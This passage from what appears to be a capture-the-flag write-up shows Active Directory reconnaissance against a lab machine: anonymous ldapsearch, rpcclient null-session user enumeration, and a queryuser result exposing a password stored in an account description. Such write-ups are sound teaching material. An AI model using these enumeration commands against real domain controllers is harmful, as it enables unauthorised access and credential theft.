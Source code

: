 in the next step I used this domain-name, that we got from the last base namingcontexts, with ldapsearch to get all the information available for this domain

```
$ ldapsearch -x -h 10.10.10.169 -b "DC=megabank,DC=local"
```

the output of this command is way too long to put everything on this blog but it gave us a lot of user names and groups that exist on the box.
We could also use rpcclient to find all the users since it has annonymous authentication enabled. This is an insecure configuration that a lot of Domain Controllers will have if they have been updated from a version older than Windows Server 2016 because Microsoft does not want to break existing environment with updated and some Programs do actually rely on this setting. That being sad tho any new installed Windows Server 2016 or newer will not have this enabled by default.

```
$ rpcclient -U "" -N 10.10.10.169
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

We can user 'queryuser' inside the rpcclient to get more information about individual users, the user marko was very interesting

```
rpcclient $> queryuser marko
        User Name   :   marko
        Full Name   :   Marko Novak
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Account created. Password set to Welcome123!
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Thu, 01 Jan 1970 01:00:00 CET
        Logoff Time              :      Thu, 01 Jan 1970 01:00:00 CET
        Kickoff Time             :      Thu, 14 Sep 30828 04:48:05 CEST
        Password last set Time   :      Fri, 27 Sep 2019 15:17:15 CEST
        Password can change Time :      Sat, 28 Sep 2019 15:17:15 CEST
```